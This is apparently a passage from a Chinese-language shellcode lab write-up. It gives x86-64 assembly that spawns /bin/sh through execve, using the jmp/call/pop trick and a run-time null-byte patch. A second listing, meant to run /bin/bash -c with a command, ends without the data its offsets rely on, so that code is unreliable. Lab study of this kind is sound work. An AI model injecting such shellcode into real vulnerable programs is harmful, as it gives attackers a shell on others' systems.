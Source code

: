 修改过后的 `mysh64.s` 如下：

```asm
section .text
global _start

_start:
    BITS 64
    jmp short two

one:
    pop rbx
    xor rax, rax            ; rax = 0
    mov [rbx+7], al        ; rbx = '/bin/sh\0'
    mov [rbx+8], rbx
    mov [rbx+16], rax

    mov rdi, rbx
    lea rsi, [rbx+8]
    mov rdx, rax
    mov al, 59              ; rax = 59
    syscall

two:
    call one
    db '/bin/sh', 0xFF
    db 'AAAAAAAA'
    db 'BBBBBBBB'
```
***
### 任务 2.c：运行更复杂的命令

为了实现 `/bin/bash -c "echo hello; ls -la"`，我们只需要修改 argv 的构造即可：

```asm
section .text
global _start

_start:
    BITS 64
    jmp short two

one:
    pop rbx             
    xor rax, rax         ; rax = 0
    mov [rbx+9], al
    mov [rbx+12], al
    mov [rbx+31], al
    
    mov rdi, rbx
	lea rsi, [rbx+32]
	mov [rsi], rdi
	lea rax, [rbx+10]
	mov [rsi+8], rax
	lea rax, [rbx+13]
	mov [rsi+16], rax
	xor rax, rax
	mov [rsi+24], rax
	
	mov rdx, rax
	mov al, 59            ; rax = 59
	syscall
	
two:
    call one
```